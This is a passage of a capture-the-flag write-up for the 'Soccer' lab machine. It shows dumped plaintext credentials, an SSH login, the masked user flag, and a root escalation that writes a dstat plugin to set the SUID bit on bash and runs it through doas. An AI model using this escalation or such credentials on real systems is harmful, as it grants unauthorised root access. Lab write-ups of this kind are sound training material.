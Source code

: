 ```shell
Database: soccer_db
Table: accounts
[1 entry]
+----------+----------------------+
| username | password             |
+----------+----------------------+
| player   | PlayerOftheMatch2022 |
+----------+----------------------+
```

finally we had some user credentials for `player` and could try to log into the account via ssh.

### getting root

```shell
Last login: Tue Dec 13 07:29:10 2022 from 10.10.14.19
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
```

it worked and we can get the first flag.

```shell
player@soccer:~$ cat user.txt
118**************************e06
```

the next part should not be to hard. we know that `dstat` is the binary we need to exploit with `doas`
so we we searched for an attack vector.

we learned that we could write a python plugin that gets executed with root privileges.

```shell
$ find / -type d -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
```

first check where are dstat directories.
Create a plugin called "dstat_exploit.py" under "/usr/local/share/dstat/"
with this content.

```shell
import os

os.system('chmod +s /usr/bin/bash')
```

Now execute dstat with `—exploit` flag (the flag name is determined by the suffix of the file name e.g. dstat\_\[plugin-name\].py

```shell
$ doas /usr/bin/dstat --exploit
```

ignore the error message and check the `bash` binary
